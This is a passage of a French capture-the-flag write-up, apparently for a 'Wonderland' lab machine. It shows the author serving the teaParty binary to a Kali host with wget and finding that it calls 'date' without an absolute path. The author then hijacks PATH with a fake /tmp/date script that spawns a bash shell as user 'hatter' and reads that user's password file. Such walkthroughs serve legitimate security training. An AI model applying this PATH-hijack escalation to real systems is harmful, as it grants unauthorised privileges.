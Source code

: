 - Target : `python3 -m http.server 9090`
    
- Kali: `wget http://10.10.209.89:9090/teaParty`
    

Analyse avec **strings** du binaire **teaParty** :

```bash
$ strings teaParty                                                                                                                                                                                                                                                                                      
...SNIPPED...
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
...SNIPPED...
```

En examinant le fichier **teaParty** nous voyons que '**date**' est exécuté sans spécifier de chemin absolu.
On va donc créer un fichier '**date**' dans '**/tmp/date**' et changer le **PATH** pour que teaParty utilise notre fichier **date** personnalisé:

- Création du fichier date avec la commande `nano /tmp/date` :

```bash
#!/bin/bash
echo ""
echo "Test Date Hijacked"
/bin/bash
~
```

- Changement de notre PATH avec la commande `export PATH=/tmp:$PATH`

On peut maintenant lancer le binaire teaParty avec la commande `./teaParty`:

```bash
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by
Test Date Hijacked

hatter@wonderland:/home/rabbit$ whoami
hatter
```

Bien, nous avons élevé nos privilèges, nous utilisons maintenant l'utilisateur **'hatter'**.
Nous pouvons donc nous rendre dans **/home/hatter** et afficher le password:

```bash
hatter@wonderland:/home/hatter$ cat password.txt 
***************
```

Nous faisons notre énumération standard en utilisant **linPEAS** :
